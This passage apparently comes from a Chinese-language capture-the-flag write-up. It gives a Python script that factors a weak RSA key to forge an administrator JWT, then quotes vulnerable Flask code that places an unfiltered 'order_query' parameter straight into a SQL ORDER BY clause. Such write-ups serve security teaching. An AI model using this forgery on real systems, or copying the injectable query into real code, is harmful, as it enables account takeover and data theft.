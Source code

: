 ```
n= int(js["jwk"]['n'])
p,q= list((sympy.factorint(n)).keys()) #divide n
e=65537
phi_n = (p-1)*(q-1)
d = pow(e, -1, phi_n)
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
private_key_bytes = key.export_key()

private_key = serialization.load_pem_private_key(
    private_key_bytes,
    password=None,
    backend=default_backend()
)
public_key = private_key.public_key()

data = jwt.decode(token,  public_key, algorithms=["RS256"] )
data["role"] = "administrator"

# Create  new admin token  
new_token = jwt.encode(data, private_key, algorithm="RS256")
print(new_token)
```

替换新的`Token`之后进入到了`admindashboard`

## SQL Injection

检查源码，在参数`order_query`中没有进行任何过滤

```
@app.route('/admindashboard', methods=['GET', 'POST'])
def admindashboard():
        validation = validate_login()
        if validation != "administrator":
            return redirect(url_for('login'))
 
        try:
            connection = pymysql.connect(**db_config)
            with connection.cursor() as cursor:
                sql = "SELECT * from appointments"
                cursor.execute(sql)
                connection.commit()
                appointments = cursor.fetchall()

                search_query = request.args.get('s', '')

                # added option to order the reservations
                order_query = request.args.get('o', '')

                sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
                cursor.execute(sql, ('%' + search_query + '%',))
                connection.commit()
                appointments = cursor.fetchall()
            connection.close()
```
